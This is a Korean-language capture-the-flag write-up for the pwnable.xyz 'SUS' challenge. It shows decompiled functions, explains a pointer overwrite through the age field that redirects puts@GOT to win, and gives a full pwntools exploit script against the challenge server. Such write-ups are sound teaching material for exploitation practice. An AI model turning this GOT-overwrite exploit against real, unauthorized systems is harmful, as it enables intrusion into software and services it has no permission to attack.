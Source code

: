 ```yaml
---
title: "[pwnable.xyz]SUS"
date: 2020-1-28
ctf: Pwnable.xyz
layout: post
published : false
---
```


64비트 바이너리고 PIE빼고 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

create_user함수에서는 s라는 변수를 동적할당해준 후 s 변수에 이름을 입력받아 cur이라는 전역변수에 주소를 저장한다. 전역변수에는 아마 heap주소가 들어갈거다.

```c
unsigned __int64 create_user()
{
  void *s; // [rsp+0h] [rbp-1060h]
  unsigned __int64 v2; // [rsp+1058h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  if ( !s )
  {
    s = malloc(32uLL);
    memset(s, 0, 32uLL);
  }
  printf("Name: ", s);
  read(0, s, 32uLL);
  printf("Age: ", s, s);
  read_int32();
  cur = &s;
  return __readfsqword(0x28u) ^ v2;
}
```

여기는 출력해주는 곳이다.

```c
int print_user()
{
  int result; // eax

  result = cur;
  if ( cur )
  {
    printf("User: %s\n", *cur);
    result = printf("Age: %d\n", *(cur + 72));
  }
  return result;
}
```

Name과 Age를수정할 수 있다.

```c
unsigned __int64 edit_usr()
{
  __int64 v0; // rsi
  __int64 v1; // rbx
  unsigned __int64 v3; // [rsp+1018h] [rbp-18h]

  v3 = __readfsqword(0x28u);
  if ( cur )
  {
    printf("Name: ");
    v0 = *cur;
    read(0, *cur, 32uLL);
    printf("Age: ", v0);
    v1 = cur;
    *(v1 + 72) = read_int32();
  }
  return __readfsqword(0x28u) ^ v3;
}
```

cur에는 포인터로 heap주소가 저장된다. 근데 age를 입력할 때 16개 이상 입력받게되면 이 포인터를 덮을 수 있다. 

그래서 age 입력받을 때 heap을 가르키는 포인터를 puts@got로 바꾸고 name을 edit할때 cur을 참조하는데 우리는 *cur에 puts@got로 덮어놨으니까 name입력받을 때 win의 주소로 넣으면 puts가 실행되면 win함수가 실행될거다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote("svc.pwnable.xyz", 30011)
win = e.symbols['win']
cur = 0x0000000000602268
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def create_user(name,age):
	sa('> ','1')
	sa(': ',name)
	sa(': ',str(age))

def print_user():
	sa('> ','2')

def edit_user(name,age):
	sa('> ','3')
	sa(': ',name)
	sa(': ',str(age))

create_user('A', 1)
edit_user('B', 'C' * 16 + p64(e.got['puts']))
edit_user(p64(win), 1)

p.interactive()
```

